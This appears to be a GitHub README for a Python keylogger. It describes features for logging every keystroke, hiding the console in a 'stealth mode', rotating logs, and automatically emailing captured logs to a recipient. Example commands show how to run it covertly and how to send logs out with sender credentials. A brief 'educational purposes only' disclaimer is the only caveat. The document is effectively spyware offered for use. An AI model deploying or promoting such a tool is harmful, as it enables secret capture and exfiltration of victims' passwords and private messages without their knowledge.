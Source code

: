 # 🖥️ Simple Keylogger

A lightweight and feature-rich keylogger developed in Python by **Ayush Thakur (Hunter001x)**. This tool logs keystrokes, supports email notifications, log rotation, stealth mode, and customizable hotkeys.

---

## ✨ Features

1. **🖊️ Keystroke Logging**: Logs all keystrokes to a specified file.
2. **📧 Email Notifications**: Automatically sends the log file to a specified email address.
3. **🕵️ Stealth Mode**: Hides the console window for discreet operation (Windows only).
4. **🎛️ Customizable Hotkey**: Allows users to define a hotkey to stop the keylogger.
5. **⏰ Timestamps**: Adds timestamps to each logged keystroke.
6. **⚙️ Error Handling**: Handles errors gracefully during logging.
7. **🌐 Cross-Platform**: Works on Windows, macOS, and Linux.
8. **🔄 Log Rotation**: Automatically rotates the log file when it exceeds 1 MB.
9. **🚫 Excluded Keys**: Skips logging of specific keys like `Shift`, `Ctrl`, `Alt`, and `Cmd`.

---

## 📋 Requirements

- **Python**: Version 3.6 or higher
- **Required Libraries**:
  - `pynput`
  - `argparse`
  - `smtplib`

Install dependencies using:
```bash
pip install pynput
```

---

## 🚀 Usage

### 🏁 Running the Keylogger

1. **Clone the Repository**:
   ```bash
   git clone https://github.com/aayushthakur001/Simple-Keylogger.git
   cd Simple-Keylogger
   ```

2. **Run the Script**:
   ```bash
   python keylogger.py
   ```

3. **Customize Behavior**: Use the available arguments to modify the keylogger's functionality.

---

### ⚙️ Command-Line Arguments

| Argument             | Description                                                                                  | Default Value       |
|-----------------------|----------------------------------------------------------------------------------------------|---------------------|
| `--output`           | Output file to save keystrokes.                                                              | `key_log.txt`       |
| `--email`            | Recipient email to send logs.                                                                | None                |
| `--sender_email`     | Sender email for sending logs.                                                               | None                |
| `--sender_password`  | Sender email password.                                                                       | None                |
| `--hotkey`           | Hotkey to stop the keylogger.                                                                | `<esc>`             |
| `--stealth`          | Run in stealth mode (no console output).                                                     | Disabled            |

---

### 🛠️ Example Commands

1. **Basic Usage**:
   ```bash
   python keylogger.py
   ```

2. **Send Logs via Email**:
   ```bash
   python keylogger.py --email recipient@example.com --sender_email sender@example.com --sender_password yourpassword
   ```

3. **Run in Stealth Mode**:
   ```bash
   python keylogger.py --stealth
   ```

4. **Custom Hotkey**:
   ```bash
   python keylogger.py --hotkey "<ctrl>+<alt>+s"
   ```

---

### 🛑 Stopping the Keylogger

Press the defined hotkey (default: `<esc>`) to stop the keylogger. Upon stopping, the log file will be sent via email (if configured).

---

## 🛡️ How It Works

1. **Keystroke Logging**: Captures keystrokes using the `pynput` library and writes them to a log file.
2. **Email Notifications**: Sends the log file to the recipient email using the `smtplib` library.
3. **Stealth Mode**: Hides the console window on Windows using the `ctypes` library.
4. **Log Rotation**: Renames the log file with a timestamp when it exceeds 1 MB.
5. **Custom Hotkey**: Uses `keyboard.GlobalHotKeys` to listen for a user-defined hotkey to stop the keylogger.

---

## 🔒 Security and Privacy

This tool is intended for **educational purposes only**. Use it responsibly and ensure you have proper authorization before deploying it on any system.

---

## ⚠️ Disclaimer

The author is **not responsible** for any misuse of this tool. Use it at your own risk.

---

## 🤝 Contributing

Contributions are welcome! Feel free to fork the repository and submit a pull request.

---

## 📜 License

This project is licensed under the **MIT License**. See the [LICENSE](LICENSE) file for details.

---

## 👨‍💻 Author

Developed by **Ayush Thakur (Hunter001x)**  
GitHub: [https://github.com/aayushthakur001](https://github.com/aayushthakur001)

---